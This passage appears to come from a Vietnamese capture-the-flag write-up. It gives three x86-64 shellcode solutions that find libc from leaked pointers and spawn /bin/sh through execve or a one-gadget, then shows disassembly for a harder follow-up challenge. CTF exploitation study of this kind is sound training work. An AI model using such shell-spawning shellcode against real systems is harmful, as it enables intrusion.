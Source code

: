 ### Cách 1: system binsh:

```asm
sub r13, 0x68
mov r13, [r13]
sub r13, 0x2182d0

mov r14, r13
add r14, 0x2646e

mov r8, 0x6969696500
mov r9, 29400045130965551
mov [r8], r9

mov rdi, r8
mov rax, 0x3b
jmp r14
```

### Cách 2: one gadget
```asm
  sub r13, 0x68
  mov r13, [r13]
  sub r13, 0x2182d0
  mov r14, r13
  add r14, 0xdabb3
  mov rbp, 0x6969696500
  mov rsp, 0x6969696500
  push r14
  mov rdi, 0
  ret
```

### Cách 3: libc from xmm register
```asm
  movq r8, xmm1
  sub r8, 0x1d9643
  add r8, 0x2646e
  mov rdi, 0x6969696500
  mov r9, 29400045130965551
  mov [rdi], r9
  mov rax, 0x3b
  jmp r8
```

---
## the_absolute_horror_of_the_trip

Vẫn như các chall trước, các filter đó, nhưng lần này các thanh ghi xmm bị xor hết về 0, và không có thanh ghi nào leak được thông tin

```asm
Dump of assembler code for function exec:
   0x0000559f719a51df <+0>:     push   rbp
   0x0000559f719a51e0 <+1>:     mov    rbp,rsp
   0x0000559f719a51e3 <+4>:     mov    QWORD PTR [rbp-0x8],rdi
   0x0000559f719a51e7 <+8>:     mov    rbx,0x0
   0x0000559f719a51ee <+15>:    mov    rcx,0x0
   0x0000559f719a51f5 <+22>:    mov    rdx,0x0
   0x0000559f719a51fc <+29>:    mov    rsp,0x0
   0x0000559f719a5203 <+36>:    mov    rbp,0x0
   0x0000559f719a520a <+43>:    mov    r8,0x0
   0x0000559f719a5211 <+50>:    mov    r9,0x0
   0x0000559f719a5218 <+57>:    mov    r10,0x0
```